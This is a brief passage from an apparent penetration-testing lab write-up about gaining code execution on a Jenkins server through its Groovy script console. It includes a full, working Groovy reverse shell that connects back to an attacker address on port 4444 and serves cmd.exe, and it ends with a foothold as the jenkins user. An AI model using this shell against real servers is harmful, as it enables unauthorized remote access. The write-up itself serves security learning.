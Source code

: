 We can try for code exec, following this guide here:

https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins

We go the groovy script route. This can be found at `/script`

We can look on github for groovy script rev shells. We use the one found here:
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76



```
String host="192.168.120.129";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

This gives us a foothold as user `jenkins`